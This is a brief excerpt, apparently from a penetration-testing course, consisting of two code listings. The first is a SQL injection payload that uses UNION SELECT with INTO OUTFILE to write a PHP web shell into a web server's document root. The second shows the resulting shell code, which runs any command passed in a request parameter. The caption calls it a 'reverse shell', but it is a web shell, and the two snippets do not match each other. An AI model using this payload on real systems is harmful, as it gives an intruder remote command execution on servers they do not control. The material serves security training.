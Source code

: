 ```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

> Listing 29 - Write a WebShell To Disk via INTO OUTFILE directive

The written PHP code file results in the following:

```
<? system($_REQUEST['cmd']); ?>
```

> Listing 30 - PHP reverse shell